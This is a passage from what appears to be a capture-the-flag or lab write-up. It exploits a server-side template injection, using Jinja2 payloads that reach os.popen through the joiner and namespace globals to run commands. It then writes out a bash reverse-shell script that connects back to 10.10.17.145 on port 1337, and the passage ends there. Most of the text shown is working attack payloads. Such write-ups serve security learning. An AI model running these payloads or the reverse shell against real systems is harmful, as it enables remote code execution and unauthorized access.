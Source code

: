 ![](./IMG/32.png)
- It success to get current user information
![](./IMG/33.png)
- Then I just skip the following 2 payloads
```
{{ joiner.__init__.__globals__.os.popen('id').read() }}
```
![](./IMG/34.png)
```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
![](./IMG/35.png)
- I can execute the command, now I will try to get reverse shell 
- Create a shell file with following content
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.17.145/1337 0>&1
```